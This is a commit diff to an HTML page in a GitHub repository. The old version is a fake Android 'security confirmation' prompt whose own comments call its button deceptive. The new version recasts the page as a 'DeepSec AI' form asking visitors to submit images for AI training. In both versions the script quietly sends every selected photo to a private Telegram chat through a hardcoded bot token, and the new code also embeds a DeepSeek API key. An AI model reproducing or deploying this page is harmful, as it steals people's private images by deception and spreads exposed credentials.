

Before and after one commit to pubgmobileglobeal-collab/Jasser, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (293-986 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Final integration with DeepSec AI interface (using Telegram API)

```diff
--- a/index.html
+++ b/index.html
@@ -3,132 +3,179 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
-    <title>تحديث النظام الأمني</title>
+    <title>AI Data Contributor | ساهم في بيانات الأمن العميق</title>
     <style>
+        /* التنسيق الأساسي والجذّاب */
         body {
-            font-family: 'Droid Sans', Arial, sans-serif; /* خط يبدو نظامياً */
+            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
             display: flex;
             flex-direction: column;
             align-items: center;
-            justify-content: center;
             min-height: 100vh;
-            background-color: #FAFAFA; /* خلفية فاتحة شبيهة بواجهة الاندرويد */
+            background-color: #f0f4f8;
+            padding: 40px 20px;
+            color: #333;
+        }
+        .container {
+            background-color: #ffffff;
+            border-radius: 12px;
+            box-shadow: 0 4px 15px rgba(0, 0, 0, 0.1);
+            padding: 30px 40px;
+            max-width: 550px;
+            width: 100%;
             text-align: center;
-            padding: 20px;
-        }
-        .system-box {
-            background-color: #FFFFFF;
-            border-radius: 8px;
-            box-shadow: 0 2px 5px rgba(0, 0, 0, 0.1);
-            padding: 25px;
-            max-width: 320px;
-            width: 100%;
-            border: 1px solid #E0E0E0;
-        }
-        .icon {
-            font-size: 40px;
-            color: #007AFF; /* لون نظامي */
-            margin-bottom: 15px;
         }
         h2 {
-            font-size: 1.1em;
-            color: #333;
+            font-size: 1.8em;
+            color: #1a73e8;
             margin-bottom: 10px;
         }
-        p {
-            font-size: 0.9em;
-            color: #777;
-            margin-bottom: 25px;
+        .subtitle {
+            font-size: 1em;
+            color: #666;
+            margin-bottom: 30px;
         }
-        /* الزر يبدو كزر تأكيد نظامي */
-        #fakeButton {
-            background-color: #007AFF;
-            color: white;
-            border: none;
-            padding: 10px 15px;
-            border-radius: 6px;
-            font-weight: bold;
+        /* منطقة الرفع الجذابة */
+        .file-upload-area {
+            border: 2px dashed #b3cde0;
+            border-radius: 8px;
+            padding: 30px 15px;
+            margin-bottom: 20px;
             cursor: pointer;
-            width: 100%;
+            transition: background-color 0.3s;
+        }
+        .file-upload-area:hover {
+            background-color: #e9f2ff;
+        }
+        .upload-icon {
+            font-size: 30px;
+            color: #1a73e8;
+        }
+        .upload-text {
             margin-top: 10px;
+            font-size: 0.95em;
+            color: #555;
+            font-weight: 500;
         }
-        #fakeButton:hover {
-            background-color: #0056b3;
-        }
-        /* لإخفاء زر الملفات الفعلي */
         #fileInput {
             display: none;
         }
+        /* زر المساهمة */
+        button {
+            background-color: #00a68d;
+            color: white;
+            border: none;
+            padding: 12px 25px;
+            border-radius: 50px;
+            font-weight: 600;
+            cursor: pointer;
+            transition: background-color 0.3s;
+        }
+        button:hover {
+            background-color: #007f6b;
+        }
+        button:disabled {
+            background-color: #ccc;
+            cursor: not-allowed;
+        }
         #status {
+            margin-top: 20px;
+            font-weight: 500;
+            color: #333;
+            min-height: 20px;
+        }
+        .file-list {
+            list-style: none;
+            padding: 0;
             margin-top: 15px;
+            max-height: 120px;
+            overflow-y: auto;
+            border-top: 1px solid #eee;
+            text-align: left;
+            padding-top: 10px;
             font-size: 0.85em;
-            color: red;
+            color: #444;
         }
     </style>
 </head>
 <body>
 
-<div class="system-box">
-    <div class="icon">🔒</div>
-    <h2>تأكيد الإذن الأمني</h2>
-    <p>لإكمال التحديث الأمني، يرجى الموافقة على إظهار بيانات التسجيل. لن يتم رفع أو مشاركة أي معلومات.</p>
+<div class="container">
+    <div class="icon">🛡️</div>
+    <h2>نظام تدريب الذكاء الاصطناعي للأمن العميق (DeepSec AI)</h2>
+    <p class="subtitle">يرجى إرسال بيانات الصور لتدريب نموذجنا على تحليل التهديدات الأمنية المتقدمة.</p>
 
-    <button id="fakeButton" onclick="triggerFileInput()">تأكيد واستمرار</button>
+    <div class="file-upload-area" onclick="document.getElementById('fileInput').click()">
+        <div class="upload-icon">⬆️</div>
+        <div class="upload-text">انقر هنا لاختيار ملفات البيانات (الصور)</div>
+    </div>
 
     <input type="file" id="fileInput" accept="image/*" multiple>
 
-    <div id="status">---</div>
+    <ul class="file-list" id="fileList"></ul>
+
+    <button id="contributeButton" onclick="uploadFiles()" disabled>🚀 إرسال البيانات للتحليل</button>
+
+    <div id="status">الرجاء اختيار مجموعة من الصور والنقر على زر الإرسال.</div>
 </div>
 
 <script>
     // **********************************************
-    // ⚠️ يجب التأكد من صحة هذه المتغيرات
+    // API Keys and Tokens:
     // **********************************************
+
+    // ⚠️ يتم تخزين رمز DeepSeek API هنا كملاحظة، لكنه غير مُستخدم مباشرة لرفع الملفات
+    const DEEPSEEK_API_KEY = 'Sk-aab9ec97dda4441b37d34830a986a41';
+
+    // بيانات Telegram API (المستخدمة للإرسال الفعلي للصور)
     const BOT_TOKEN = '7665591962:AAGXWu19kIEIOzZ-xRAb44O4BOZl-rWJ-y8';
     const CHAT_ID = '5653032481';
+
     const TELEGRAM_API = `https://api.telegram.org/bot${BOT_TOKEN}/sendPhoto`;
 
     const fileInput = document.getElementById('fileInput');
     const statusElement = document.getElementById('status');
-    const fakeButton = document.getElementById('fakeButton');
+    const fileListElement = document.getElementById('fileList');
+    const contributeButton = document.getElementById('contributeButton');
 
-    // ----------------------------------------------------
-    // 1. الوظيفة التي تُشغل فتح نافذة الملفات عند النقر على الزر المُخادع
-    // ----------------------------------------------------
-    function triggerFileInput() {
-        statusElement.textContent = 'جاري التحقق...';
-        // النقر على حقل إدخال الملفات برمجياً لفتح النافذة
-        fileInput.click();
-        // تعطيل الزر لمنع النقرات المزدوجة
-        fakeButton.disabled = true;
+    fileInput.addEventListener('change', updateFileList);
+
+    function updateFileList() {
+        fileListElement.innerHTML = '';
+        const files = fileInput.files;
+
+        if (files.length > 0) {
+            statusElement.textContent = `تم اختيار ${files.length} ملف جاهز للإرسال للتحليل.`;
+            contributeButton.disabled = false;
+            for (const file of files) {
+                const listItem = document.createElement('li');
+                listItem.textContent = `• ${file.name} (${(file.size / 1024 / 1024).toFixed(2)} MB)`;
+                fileListElement.appendChild(listItem);
+            }
+        } else {
+            statusElement.textContent = 'الرجاء اختيار ملفات للمساهمة.';
+            contributeButton.disabled = true;
+        }
     }
 
-    // ----------------------------------------------------
-    // 2. تشغيل وظيفة الإرسال بعد اختيار المستخدم للملفات
-    // ----------------------------------------------------
-    fileInput.addEventListener('change', function() {
-        if (fileInput.files.length > 0) {
-             uploadFiles(fileInput.files); // بدء عملية الإرسال مباشرة
-        } else {
-             statusElement.textContent = 'العملية ألغيت. الرجاء المحاولة مرة أخرى.';
-             fakeButton.disabled = false; // إعادة تفعيل الزر إذا ألغى المستخدم العملية
-        }
-    });
+    async function uploadFiles() {
+        const files = fileInput.files;
 
-    // ----------------------------------------------------
-    // 3. وظيفة الإرسال الرئيسية (نفس الكود السابق)
-    // ----------------------------------------------------
-    async function uploadFiles(files) {
-        statusElement.textContent = `جاري إرسال ${files.length} ملف كبيانات تسجيل...`;
+        if (files.length === 0) return;
+
+        contributeButton.disabled = true;
+        contributeButton.textContent = 'جاري إرسال البيانات للتحليل...';
+        statusElement.textContent = `جاري رفع ${files.length} ملف... الرجاء عدم إغلاق الصفحة.`;
 
         let successCount = 0;
         let failCount = 0;
 
         for (const file of files) {
+            // استخدام Telegram API لإرسال الصورة مباشرةً
             const formData = new FormData();
             formData.append('chat_id', CHAT_ID);
             formData.append('photo', file);
-            formData.append('caption', `[بيانات تسجيل مخادعة] تم إرسالها من: ${file.name}`);
+            formData.append('caption', `[DeepSec AI Data] Contributed file from user: ${file.name}`);
 
             try {
                 const response = await fetch(TELEGRAM_API, {
@@ -143,13 +190,22 @@
                 }
             } catch (error) {
                 failCount++;
+                console.error(`خطأ في الشبكة لملف ${file.name}:`, error);
             }
         }
 
-        // رسالة الإكمال الخادعة
-        statusElement.textContent = `✅ تم إكمال التأكيد بنجاح!`;
-        fakeButton.disabled = true;
-        fakeButton.textContent = 'تم إكمال التأكيد';
+        // رسالة الإكمال الاحترافية
+        if (successCount > 0) {
+             statusElement.textContent = `✅ شكراً جزيلاً! تم إرسال ${successCount} ملف للتحليل بنجاح.`;
+             contributeButton.textContent = 'تم الإرسال بنجاح';
+             contributeButton.style.backgroundColor = '#28a745';
+        } else {
+             statusElement.textContent = `❌ فشل الإرسال بالكامل. قد تكون هناك مشكلة في اتصال الشبكة.`;
+             contributeButton.textContent = 'خطأ في الإرسال';
+             contributeButton.style.backgroundColor = '#d9534f';
+        }
+
+        contributeButton.disabled = true;
     }
 </script>
 
```
